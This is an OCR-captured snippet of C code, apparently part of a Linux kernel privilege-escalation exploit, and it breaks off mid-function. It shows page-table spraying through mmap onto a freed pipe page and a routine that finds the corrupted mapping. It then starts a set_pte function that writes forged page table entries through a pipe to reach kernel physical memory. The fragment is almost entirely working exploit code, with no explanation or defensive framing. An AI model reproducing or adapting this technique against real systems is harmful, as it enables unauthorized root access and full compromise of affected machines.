 ```c
#define MMAP_SPRAT_SIZE 0x10000UL
void spray_ptes_target_to_victim_pipe_page() {
  for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
    mmap_addrs[i] = mmap((void *)(MMAP_SPRAT_START_ADDR + i * MMAP_SPRAT_STEP),
                         MMAP_SPRAT_SIZE, PROT_READ | PROT_WRITE,
                         MAP_ANONYMOUS | MAP_SHARED, -1, 0);
    if (mmap_addrs[i] == MAP_FAILED) {
      fatal("mmap");
    }
  }

  int file_fds[FILE_SPRAY_COUNT];

  sched_yield();
  close_pipe_at(victim_pipe_fds[1]);

  for (int i = 0; i < FILE_SPRAY_COUNT; ++i) {
    file_fds[i] = open("/", O_RDONLY);
    if (file_fds[i] < 0) {
      fatal("open");
    }
  }

  for (int i = 0; i < FILE_SPRAY_COUNT; ++i) {
    close(file_fds[i]);
  }

  for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
    for (int j = 0; j < MMAP_SPRAT_SIZE / MMAP_PAGE_SIZE; ++j) {
      uint64_t *addr = (uint64_t *)(mmap_addrs[i] + MMAP_PAGE_SIZE * j);
      const uint64_t val = ((uint64_t)i << 32) + j * 0x01010101;
      *addr = val;
    }
  }
}

void *corrupted_mmap_addr = (void *)-1;
void find_corrupted_mmap_addr() {
  if (corrupted_mmap_addr != (void *)-1) {
    return;
  }
  for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
    for (int j = 0; j < MMAP_SPRAT_SIZE / MMAP_PAGE_SIZE; ++j) {
      uint64_t *addr = (uint64_t *)(mmap_addrs[i] + MMAP_PAGE_SIZE * j);
      const uint64_t val = ((uint64_t)i << 32) + j * 0x01010101;
      if (*addr != val) {
        corrupted_mmap_addr = addr;
        return;
      }
    }
  }
}

uint64_t original_ptes[0x1000 / 8];
uint64_t physical_kernel_base;
uint64_t default_pte_for_kernel_code;

void *set_pte(uint64_t new_pte) {
  static uint64_t cur_offset = 0;
  if (cur_offset >= 0x1000 * 512) {
    fatal("set_pte: too many modifications");
  }
  write(pipe_fds[victim_pipe_fds[0]][1], &new_pte, 8);
```